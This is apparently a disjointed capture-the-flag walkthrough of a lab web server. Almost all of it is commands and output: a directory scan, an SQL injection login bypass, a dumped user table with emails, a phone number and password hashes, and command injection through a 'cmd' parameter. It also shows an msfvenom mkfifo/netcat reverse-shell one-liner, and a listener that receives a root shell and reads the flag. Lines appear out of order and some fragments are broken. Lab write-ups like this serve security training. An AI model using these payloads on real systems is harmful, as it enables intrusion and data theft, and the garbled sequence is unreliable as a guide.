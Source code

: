 
➜  zSecurity_Client_CTF gobuster dir -u http://10.10.34.138 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

admin'or'1'='1

Sno. 	First Name 	Last Name 	Email Id 	Contact no. 	Password
1 	afsar 	as 	afsar.sdq@gmail.com 	123 	81dc9bdb52d04dc20036dbd8313ed055 	
2 	Afsar 	siddiqui 	afsar.sdq@gmail.com 	8090648046 	3677b23baa08f74c28aba07f0cb6554e


10.10.34.138/client/admin/backup.php?cmd=cp%20-r%20/

sudo tcpdump ip proto \\icmp -i tun0

10.10.34.138/client/admin/backup.php?cmd=ping 10.8.5.88 -c 3
original
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh

form msfvenom
mkfifo /tmp/ceeie; nc 10.8.5.88 8888 0</tmp/ceeie | /bin/sh >/tmp/ceeie 2>&1; rm /tmp/ceeie
echo "mkfifo /tmp/ceeie; nc 10.8.5.88 8888 0</tmp/ceeie | /bin/sh >/tmp/ceeie 2>&1; rm /tmp/ceeie" > shell.sh

➜  zSecurity_Client_CTF msfvenom -p cmd/unix/reverse_netcat lhost=10.8.5.88 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 91 bytes
mkfifo /tmp/ceeie; nc 10.8.5.88 8888 0</tmp/ceeie | /bin/sh >/tmp/ceeie 2>&1; rm /tmp/ceeie
# ROOT_flag
~~~
➜  zSecurity_Client_CTF nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.5.88] from (UNKNOWN) [10.10.34.138] 43196
id
uid=0(root) gid=0(root) groups=0(root)
s  
/bin/sh: 2: s: not found
cd /home
ls
julian
cd ..
cd /root
ls
readme.txt
root-flag.txt
cat *.txt


                --------------------------------------------------------------------

                I've never found it hard to hack most people. If you listen to them,
                watch them, their vulnerabilities are like a neon sign screwed into 
                                        theirs heads...

                Elliot Alderson
                --------------------------------------------------------------------
flag{cR0nJoBs_aR3_Th3_b3ST_F0r_pR!VesC}
~~~
 headers)
[ERROR] Get "http://10.10.34.138/rss": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/assets               (Status: 301) [Size: 313] [--> http://10.10.34.138/assets/]
/client               (Status: 301) [Size: 313] [--> http://10.10.34.138/client/]